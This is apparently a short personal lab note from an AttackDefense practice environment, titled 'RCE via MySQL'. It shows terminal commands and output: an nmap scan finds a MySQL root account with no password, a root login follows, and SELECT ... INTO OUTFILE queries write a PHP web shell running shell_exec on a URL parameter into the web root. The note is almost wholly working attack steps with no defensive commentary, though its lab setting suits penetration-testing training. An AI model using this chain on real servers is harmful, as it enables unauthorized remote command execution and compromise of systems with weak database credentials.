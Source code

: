 
RCE via MySQL

root@attackdefense:~# sudo nmap -sS -sV --script mysql-empty-password -p 3306 192.28.127.3
sudo: setrlimit(RLIMIT_CORE): Operation not permitted
Starting Nmap 7.70 ( https://nmap.org ) at 2025-09-30 15:45 IST
Nmap scan report for target-1 (192.28.127.3)
Host is up (0.000057s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 5.5.56-log
| mysql-empty-password: 
|_  root account has empty password
MAC Address: 02:42:C0:1C:7F:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .


root@attackdefense:~# mysql -u root -h 192.28.127.3
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 18
Server version: 5.5.56-log MySQL Community Server (GPL)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> 
MySQL [(none)]> show databases;               
+--------------------+
| Database           |
+--------------------+
| information_schema |
| adive              |
| mysql              |
| performance_schema |
| test               |
+--------------------+
5 rows in set (0.002 sec)

MySQL [(none)]> select 'Hello World' into outfile '/tmp/test' from mysql.user limit 1;
Query OK, 1 row affected (0.001 sec)

MySQL [(none)]> select '<?php $output=shell_exec($_GET["cmd"]);echo "<pre>"$output"</pre>"?>' into outfile'/var/www/html/shell.php' from mysql.user limit 1;
Query OK, 1 row affected (0.003 sec)
MySQL [(none)]> select '<?php $output=shell_exec($_GET["cmd"]);echo "<pre>".$output."</pre>"?>' into outfile'/var/www/html/test.php' from mysql.user limit 1;
Query OK, 1 row affected (0.001 sec)

![[Pasted image 20250930132543.png]]



